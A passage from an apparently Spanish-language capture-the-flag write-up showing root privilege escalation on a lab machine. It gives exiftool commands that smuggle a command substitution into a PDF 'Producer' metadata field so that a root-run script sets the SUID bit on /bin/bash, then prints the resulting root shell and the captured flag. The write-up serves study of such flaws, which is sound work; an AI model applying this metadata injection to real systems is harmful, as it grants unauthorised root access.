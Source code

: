 Por cada archivo dentro del directorio ```/tmp```, se pasa como argumento a ```exiftool``` para que extraiga los metadatos de ```Producer```. En caso de que se detecte que es igual a ```dompdf```, se eliminará

Modifico la bash a SUID

```null
www-data@interface:/tmp$ touch test
www-data@interface:/tmp$ exiftool -Producer='x[$(chmod${IFS}u+s${IFS}/bin/bash)]' test
www-data@interface:/tmp$ exiftool -Producer='arr[$(/tmp/pwned.sh)]' pwned
```

Puedo ver la segunda flag

```null
www-data@interface:/tmp$ bash -p
bash-4.4# cat /root/root.txt 
ed20fb3372ad80be3c93ea73e9a7d3db
```